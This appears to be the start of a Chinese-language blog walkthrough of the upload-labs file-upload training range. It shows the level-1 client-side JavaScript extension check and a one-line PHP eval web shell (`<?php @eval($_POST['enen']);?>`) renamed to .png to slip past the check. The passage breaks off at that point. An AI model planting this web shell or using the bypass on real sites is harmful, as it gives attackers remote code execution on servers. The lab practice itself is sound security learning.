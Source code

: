 ```yaml
---
title: upload-labs通关笔记
categories:
- 渗透
tags:
- upload-labs
updated: 2018-08-01
---
```




很早之前就已经写好了，只是一直都没有时间去上传。最近心情不是很好，最后有几个没有做，以后慢慢再补吧。前几天看到了一个大佬写的上传的靶场，据说是到目前来说，常见的都在里面，然后自己下载了之后，在本地搭建练习一下，正好总结一下上传的各种方法。附上下载链接：  https://github.com/c0ny1/upload-labs

 大致的思维导图就是这样的：

<img src="{{ site.url }}/assets//blog_images/2018/8月/upload-labs_mind-map.png" />

 我是使用作者直接提供的环境一键搭建的，打开之后就是这样的：

<img src="{{ site.url }}/assets//blog_images/2018/8月/upload-labs_01.png" />

# pass-01 客户端使用js对不合法图片进行检查！ 

首先查看源码：

```php
function checkFile() {
    var file = document.getElementsByName('upload_file')[0].value;
    if (file == null || file == "") {
        alert("请选择要上传的文件!");
        return false;
    }
    //定义允许上传的文件类型
    var allow_ext = ".jpg|.png|.gif";
    //提取上传文件的类型
    var ext_name = file.substring(file.lastIndexOf("."));
    //判断上传文件类型是否允许上传
    if (allow_ext.indexOf(ext_name + "|") == -1) {
        var errMsg = "该文件不允许上传，请上传" + allow_ext + "类型的文件,当前文件类型为：" + ext_name;
        alert(errMsg);
        return false;
    }
}
```

直接上传一个一句话小马：1.php 内容为：`<?php @eval($_POST['enen']);?>`

<img src="{{ site.url }}/assets//blog_images/2018/8月/upload-labs_1_01.png" />

直接显示不允许上传，这个时候直接改名字为 1.png ，内容为`<?php @eval($_POST['enen']);?>`
